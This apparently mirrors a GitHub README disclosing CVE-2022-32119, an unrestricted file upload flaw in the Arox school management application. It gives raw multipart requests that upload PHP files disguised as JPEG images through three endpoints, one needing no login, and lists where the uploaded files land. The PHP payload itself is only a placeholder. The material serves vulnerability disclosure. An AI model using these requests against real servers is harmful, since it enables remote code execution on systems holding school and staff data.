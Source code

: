 # CVE-2022-32119

CVE-2022-32119 - Arox-Unrestricted-File-Upload

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/JC175](https://github.com/JC175) |
| Url      | [https://github.com/JC175/CVE-2022-32119](https://github.com/JC175/CVE-2022-32119)                                               |
| Stars    | 18                                                          |
| License  | No License                                                        |

<details>

<summary>Topic / Tags</summary>



</details>

## Readme

# CVE-2022-32119 - Arox-Unrestricted-File-Upload

There are multiple unrestricted file uploads that result in the arbitrary execution of PHP code.

Authenticated Vulnerable Pages:


localhost/office_admin/?pid=54&action=add


-----------------------------181967832439954202373233921976

Content-Disposition: form-data; name="apid"



2

-----------------------------181967832439954202373233921976

Content-Disposition: form-data; name="title"



Test

-----------------------------181967832439954202373233921976

Content-Disposition: form-data; name="image_path"; filename="phpfilehere.php.jpg"

Content-Type: image/jpeg



<PHP Code Here>

-----------------------------181967832439954202373233921976

Content-Disposition: form-data; name="addphoto"



Add

-----------------------------181967832439954202373233921976--

  
File location: localhost/office_admin/images/student_photos/<file here>



  
localhost/office_admin/?pid=22&action=school_details


-----------------------------11158482814295139764067111151

Content-Disposition: form-data; name="fi_startdate"



06/04/2022

-----------------------------11158482814295139764067111151

Content-Disposition: form-data; name="fi_enddate"



07/04/2022

-----------------------------11158482814295139764067111151

Content-Disposition: form-data; name="fi_ac_startdate"



06/04/2022

-----------------------------11158482814295139764067111151

Content-Disposition: form-data; name="fi_ac_enddate"



07/04/2022

-----------------------------11158482814295139764067111151

Content-Disposition: form-data; name="fi_schoolname"



Test

-----------------------------11158482814295139764067111151

Content-Disposition: form-data; name="fi_currency"



Test

-----------------------------11158482814295139764067111151

Content-Disposition: form-data; name="fi_symbol"



test

-----------------------------11158482814295139764067111151

Content-Disposition: form-data; name="fi_address"



Test

-----------------------------11158482814295139764067111151

Content-Disposition: form-data; name="fi_endclass"





-----------------------------11158482814295139764067111151

Content-Disposition: form-data; name="fi_email"



info@test.com

-----------------------------11158482814295139764067111151

Content-Disposition: form-data; name="fi_phoneno"



1234567899

-----------------------------11158482814295139764067111151

Content-Disposition: form-data; name="fi_website"



www.test.com

-----------------------------11158482814295139764067111151

Content-Disposition: form-data; name="fi_school_logo"; filename="phpfilehere.php"

Content-Type: image/jpeg



<PHP Code Here>

-----------------------------11158482814295139764067111151

Content-Disposition: form-data; name="oldlogoimage"



oldimage.jpg

-----------------------------11158482814295139764067111151

Content-Disposition: form-data; name="Submit"



Submit

-----------------------------11158482814295139764067111151--


File location: localhost/office_admin/images/school_logo/<file here>



Unauthenticated Vulnerable Pages:

localhost/greatbritain/greatbritain/upload_stafffille.php


-----------------------------80149291128776956634294289925

Content-Disposition: form-data; name="txtdocname"; filename="test.jpg"

Content-Type: image/jpeg



123456

-----------------------------80149291128776956634294289925

Content-Disposition: form-data; name="btnsubmit"



Submit

-----------------------------80149291128776956634294289925--


File location: localhost/greatbritain/greatbritain/upload_data/<file here>



## Get the content

```
git clone https://github.com/JC175/CVE-2022-32119
cd CVE-2022-32119
```

{% embed url="https://github.com/JC175/CVE-2022-32119" %}

<figure><img src="https://avatars.githubusercontent.com/u/33234808?v=4" alt=""><figcaption><p>JC175</p></figcaption></figure>

